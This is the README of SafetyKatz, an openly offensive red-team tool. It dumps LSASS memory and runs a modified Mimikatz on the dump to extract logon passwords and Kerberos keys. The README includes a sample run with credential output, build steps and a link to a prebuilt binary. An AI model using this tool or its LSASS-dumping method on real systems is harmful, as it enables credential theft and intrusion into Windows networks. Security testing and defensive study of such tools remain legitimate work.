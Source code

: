 # SafetyKatz

----

SafetyKatz is a combination of slightly modified version of [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/) project and [@subtee](https://twitter.com/subtee)'s [.NET PE Loader](https://github.com/re4lity/subTee-gits-backups/blob/master/PELoader.cs).

First, the [MiniDumpWriteDump](https://docs.microsoft.com/en-us/windows/desktop/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump) Win32 API call is used to create a minidump of LSASS to C:\Windows\Temp\debug.bin. Then @subtee's PELoader is used to load a customized version of Mimikatz that runs
**sekurlsa::logonpasswords** and **sekurlsa::ekeys** on the minidump file, removing the file after execution is complete.

#### Modifications

* @subtee's PE Loader was slightly modified so some of the pointer arithmetic worked better on .NET 3.5
* @gentilkiwi's Mimikatz project was modified to strip some functionality for size reasons, and to automatically run the sekurlsa::minidump mode (deleting the minidump file after). If you don't trust my compiled version, feel free to build it yourself :)


[@harmj0y](https://twitter.com/harmj0y) is the primary author of this port.

SafetyKatz is licensed under the BSD 3-Clause license.

## Usage

    C:\Temp>SafetyKatz.exe

    [*] Dumping lsass (808) to C:\WINDOWS\Temp\debug.bin
    [+] Dump successful!

    [*] Executing loaded Mimikatz PE

    .#####.   mimikatz 2.1.1 (x64) built on Jul  7 2018 03:36:26 - lil!
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  / *** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
    '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
    '#####'        > http://pingcastle.com / http://mysmartlogon.com   *** /

    mimikatz # Opening : 'C:\Windows\Temp\debug.bin' file for minidump...

    Authentication Id : 0 ; 28935082 (00000000:01b983aa)
    Session           : Interactive from 0
    User Name         : blahuser
    Domain            : WINDOWS10
    Logon Server      : WINDOWS10
    Logon Time        : 7/15/2018 1:07:55 PM
    SID               : S-1-5-21-1473254003-2681465353-4059813368-1002
            msv :
            [00000003]
    Primary
            * Username : blahuser
            * Domain   : WINDOWS10

    ...(snip)...

    mimikatz # deleting C:\Windows\Temp\debug.bin


## Compile Instructions
SafetyKatz has been built against.NET 3.5 and is compatible with[Visual Studio 2015 Community Edition](https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.

## Binary [![Build status](https://ci.appveyor.com/api/projects/status/8ejiim66g22o478l?svg=true)](https://ci.appveyor.com/project/osospeed/safetykatz)

An automatic build can be downloaded from [here](https://ci.appveyor.com/project/osospeed/safetykatz/build/artifacts)
